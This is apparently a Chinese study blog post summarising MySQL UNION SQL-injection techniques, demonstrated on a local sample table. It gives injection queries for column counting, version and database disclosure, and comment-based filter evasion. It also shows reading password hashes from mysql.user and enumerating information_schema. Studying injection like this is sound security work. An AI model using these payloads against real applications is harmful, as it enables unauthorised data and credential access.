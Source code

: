 ```yaml
---
layout: post
title: "MySQL UNION 注入小结"
subtitle: "MySQL UNION 注入小结"
date: 2019-08-11
author: ppbibo
category: 习信息安全系列
finished: true
---
```

[TOC]

```mysql
mysql> select * from users order by 3;
+----+-------------+---------+---------+------+--------+
| id | name        | chinese | english | math | Strong |
+----+-------------+---------+---------+------+--------+
|  6 | ZhangJinbao |      55 |      85 |   45 |     10 |
|  2 | LiJin       |      67 |      53 |   95 |     10 |
|  7 | HuangRong   |      75 |      65 |   30 |     10 |
|  5 | LiLaicai    |      82 |      84 |   67 |     10 |
|  3 | WangWu      |      87 |      78 |   77 |     10 |
|  4 | LiYi        |      88 |      98 |   92 |     10 |
|  1 | XiaoMing    |      89 |      78 |   90 |     10 |
+----+-------------+---------+---------+------+--------+
7 rows in set (0.00 sec)

```



**UNION 注入**



```mysql
SELECT * FROM users WHERE id = 1 ORDER BY 6;

SELECT * FROM users WHERE id = 1 UNION SELECT 1,2,3,4,5,6;

SELECT * FROM users WHERE id = 1 UNION SELECT 1,2,version(),database(),5,6 FROM users #LIMIT 1;

```



**内联注释**



```mysql
SELECT * FROM users WHERE id = 1 /*!ORDER*/ BY/**/6;

SELECT * FROM users WHERE id = 1/*!*/UNION/**/SELECT 1,2,@@version,database/*asdasd*/(),5,6 FROM users #LIMIT 1;



SELECT * FROM users WHERE id = 0/*!*/OR 1 = 1 UNION/**/SELECT 1,2,@@version,database/*asdasd*/(),5,6 FROM users;
```





**解释**

ORDER BY 子句用来排序使用，**与主查询相匹配**。



**例如：**

```mysql
SELECT * FROM users WHERE id = 1 ORDER BY 6;
```

这里主查询是 `*` 就是所有列。



```mysql
SELECT name FROM users WHERE id = 1 ORDER BY 1;
```

这里查询的为 name  一个列，如果order by 2 报错提示未知列；

*/\*语句* *ERROR 1054 (42S22): Unknown column '2' in 'order clause’ 。\*/*



**查询 mysql 密码 (** 必须为ROOT权限，才可以进行跨裤操作 **)**

```mysql
SELECT host,user,authentication_string FROM mysql.user;   -- MYSQL 8.0

SELECT host,user,password FROM mysql.user;  -- MYSQL 5.5
```



**/\*获取当前用户可操作的数据库\*/**

```mysql
SELECT * FROM users WHERE id=1 UNION SELECT 1,2,3,4,5,group_concat(schema_name) FROM information_schema.schemata;
```



**/\*获取指定数据库表名\*/**

```mysql
SELECT * FROM users WHERE id=1 UNION SELECT 1,2,3,4,5,TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA='python';
```



**/\*获取指定表的列名\*/**

```mysql
SELECT * FROM users WHERE id=1 UNION SELECT 1,2,3,4,5,COLUMN_NAME FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='python' AND TABLE_NAME='users';
```



**/\*获取指定列的内容\*/**

```mysql
SELECT * FROM users WHERE id=1 UNION SELECT 1,2,3,4,name,Strong FROM users;
```



**Tips:**

​        *一般都是有 information_schema这个数据裤的，这个数据裤储存了当前用户的一些信息，数据库、数据表等信息。*



group_concat()，手册上说明:该函数返回带有来自一个组的连接的非NULL值的字符串结果。